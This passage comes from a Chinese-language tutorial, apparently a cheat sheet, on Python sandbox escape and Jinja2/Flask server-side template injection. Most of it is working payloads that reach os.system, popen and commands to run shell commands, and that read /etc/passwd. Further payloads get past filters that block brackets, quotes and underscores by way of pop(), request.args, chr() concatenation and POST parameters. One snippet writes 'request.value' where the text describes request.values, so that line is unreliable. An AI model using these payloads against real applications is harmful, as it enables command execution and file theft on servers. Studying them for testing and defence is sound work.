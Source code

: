 ```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')root0
```

### 利用commands 进行命令执行

```
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

## 0x04常见绕过方式

#### 绕过中括号

pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。

```
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
```

在这里使用pop并不会真的移除,但却能返回其值,取代中括号,来实现绕过

#### 过滤引号

`request.args` 是flask中的一个属性,为返回请求的参数,这里把`path`当作变量名,将后面的路径传值进来,进而绕过了引号的过滤

```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
```

先获取chr函数，赋值给chr，后面拼接字符串就好了：

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read() }}
```

#### 过滤下划线

同样利用`request.args`属性

```
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

将其中的`request.args`改为`request.values`则利用post的方式进行传参

```
#GET:
{{ ''[request.value.class][request.value.mro][2][request.value.subclasses]()[40]('/etc/passwd').read() }}
#POST:
class=__class__&mro=__mro__&subclasses=__subclasses__
```
